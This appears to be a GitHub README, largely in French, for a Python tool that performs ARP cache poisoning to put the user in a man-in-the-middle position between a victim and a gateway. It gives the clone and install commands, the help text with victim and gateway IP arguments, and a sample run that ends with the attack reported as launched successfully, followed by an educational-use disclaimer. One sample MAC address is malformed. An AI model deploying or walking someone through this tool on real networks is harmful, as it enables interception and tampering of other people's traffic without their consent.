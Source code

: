 # Installation :
```
git clone https://github.com/PrestaDZ/ARP-Cache-poisoning.git
cd ARP-Cache-poisoning
pip3 install -r requirements.txt
```

# Usage :

```

$ sudo python3 acp.py --help

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

usage: python3 acp.py [-h] -s SWITCH_IP -i VICTIM_IP

optional arguments:
  -h, --help            show this help message and exit
  -s SWITCH_IP, --switch-ip SWITCH_IP
                        L'adresse IP de la passerelle.
  -i VICTIM_IP, --victim-ip VICTIM_IP
                        L'adresse IP de la victime.

```

# Exemple :

```
$ sudo python3 acp.py -s 192.168.0.254 -i 192.168.0.10

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

Envoi de 2 paquets ICMP à 192.168.0.10...
------------
Sent : 2 , Received : 0
Packet lost         : 1.0

[!] L'hôte ne répond pas au packets ICMP.
Envoi de 2 paquets ICMP à 192.168.0.254 ...
------------
Sent : 2 , Received : 2
Packet lost         : 0.0


-------------------------------------------
[i] Victime    Ip / MAC  -> 192.168.0.10  : 32:1a:u9:d4:f7:23
[i] Passerelle Ip / MAC  -> 192.168.0.254 : fa:18:8b:a6:21:ce

[+] Lancement de l'attaque ...
[i] Taper controle + C pour quitter le programme.
[+] Attaque lancée avec succès

```

Ce code a pour but de vous mettre dans une position de MiTM entre la victime et la passerelle en corrompant le cache ARP, il a été écrit pour un usage informatif et éducatif et non pour un usage illégal, il est interdit par la loi et punissable de l'utilisé sur un réseau ne vous appartenant pas, et je me désolidarise de ces actes.
